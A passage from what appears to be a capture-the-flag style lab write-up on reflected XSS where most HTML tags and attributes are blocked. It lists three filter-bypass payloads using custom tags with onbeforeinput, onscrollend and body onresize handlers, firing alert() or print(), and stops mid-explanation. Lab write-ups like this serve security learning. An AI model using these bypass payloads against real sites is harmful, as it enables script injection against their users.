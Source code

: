 ![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/11.png)
![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/12.png)
![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/13.png)



So we have 3 possible payloads, because as "audio" and “video” tags are not available we can not use "onratechange":

```
<xss contenteditable onbeforeinput=alert(1)>test
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id=x>test</span></xss>
<body onresize="print()">
```


Regarding the "onscrollend" payload, I updated it because it can not use “br” or “span”. However, it is necessary to scroll to the top or the bottom to see the alert pop:
